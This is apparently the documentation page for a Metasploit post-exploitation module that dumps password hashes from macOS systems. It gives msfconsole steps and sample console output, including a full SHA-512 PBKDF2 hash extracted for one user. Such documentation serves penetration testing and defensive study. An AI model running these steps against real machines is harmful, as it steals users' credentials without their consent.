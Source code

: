 ## Vulnerable Application

This module dumps SHA-1, LM, NT, and SHA-512 Hashes on OSX. Supports versions 10.3 to 10.14.

## Verification Steps

  1. Start msfconsole
  2. Get a root privileged shell
  3. Do: ```use post/osx/gather/hashdump```
  4. Do: ```set session #```
  5. Do: ```run```
  6. You should see hashes dumped and stored to creds (if db is connected)

## Options

  **MATCHUSER**
  A regex to run against usernames.  Only matched usernames will have their hashes dumped.

## Scenarios

### User level shell on OSX 10.14.4

```
msf post(osx/gather/hashdump) > run

[-] Post aborted due to failure: bad-config: Insufficient Privileges: must be running as root to dump the hashes
[*] Post module execution completed
```

### Root level shell on OSX 10.14.4

```
msf post(osx/gather/hashdump) > run

[*] Attempting to grab shadow for user nobody...
[*] Attempting to grab shadow for user h00die...
[+] SHA-512 PBKDF2:h00die:$ml$67012$52a3da29923ab1680ae7c28b40a3ba7c2386c679af0392011f706c4ec2a22475$5c935f59a173d25bd4ed5cf59464930153198ea28b70d1e4bb5fe5e39828bec8347419dc53f0f0d93f08399f30b56adcd0f9a6f6e834ba33cba58d6b35fd1021bd81e63edf2a5b2265d8c4b7908d9bcfe127cbcd3c2092d2ab58f1b7a16dc3e11e0d5a7b027c254f3f91fdeb5acc92bcf5a3cc033319f5209f635c0494854a2e
[*] Credential saved in database.
[*] Attempting to grab shadow for user root...
[*] Attempting to grab shadow for user daemon...
[*] Attempting to grab shadow for user nobody...
[*] Attempting to grab shadow for user root...
[*] Attempting to grab shadow for user daemon...
[*] Post module execution completed
```
